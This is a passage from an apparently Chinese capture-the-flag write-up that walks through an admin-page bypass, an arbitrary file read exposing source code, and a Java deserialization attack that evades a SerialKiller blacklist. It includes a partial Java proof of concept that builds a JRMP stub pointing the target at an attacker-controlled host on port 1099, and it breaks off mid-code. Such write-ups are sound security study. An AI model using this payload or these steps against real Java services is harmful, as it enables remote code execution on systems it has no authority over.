 ```
print cipher
```

抓包改一下即可来到管理员界面

[![](https://p2.ssl.qhimg.com/t01a65a7c80dae10e6f.png)](https://p2.ssl.qhimg.com/t01a65a7c80dae10e6f.png)

其中1.txt给了一些hint

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01777770fe96be7249.png)

同时filename存在任意文件读取漏洞，跑一下常见路径可以拿到一份源码泄漏

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012cb0b1548f672eb7.png)

审计一下代码可以看到虽然项目使用的是有漏洞的commons-collections并且还存在一个明显的反序列化点，不过不幸的是在反序列化之前用[SerialKiller](https://github.com/ikkisoft/SerialKiller)对反序列化出来的类做了黑名单处理。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01b582e213f8880ada.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0163b2e82626925041.png)

一开始的思路是用最近出的工具gadget-inspector.jar自动化寻找新的gadget，但是没有找到。。。

等到中午的时候官方放了提示说是利用jrmp，在先知上找到一片文章[Weblogic JRMP反序列化漏洞回顾](https://xz.aliyun.com/t/2479)，在CVE-2018-？那里作者给出了一个payload我发现稍微改一下打到服务器那边就会有反应。

```
import com.sun.org.apache.xml.internal.security.exceptions.Base64DecodingException;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import javax.management.remote.rmi.RMIConnectionImpl_Stub;
import javax.naming.ConfigurationException;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.rmi.server.ObjID;
import java.util.Random;

public class Poc `{`
    public static void main(String[] args) throws IOException, ClassNotFoundException, ConfigurationException, Base64DecodingException `{`

        String host;
        int port;
        host = "ip";
        port = 1099;

        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RMIConnectionImpl_Stub stub = new RMIConnectionImpl_Stub(ref);

        ByteArrayOutputStream out = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(out);
        objectOutputStream.writeObject(stub);

```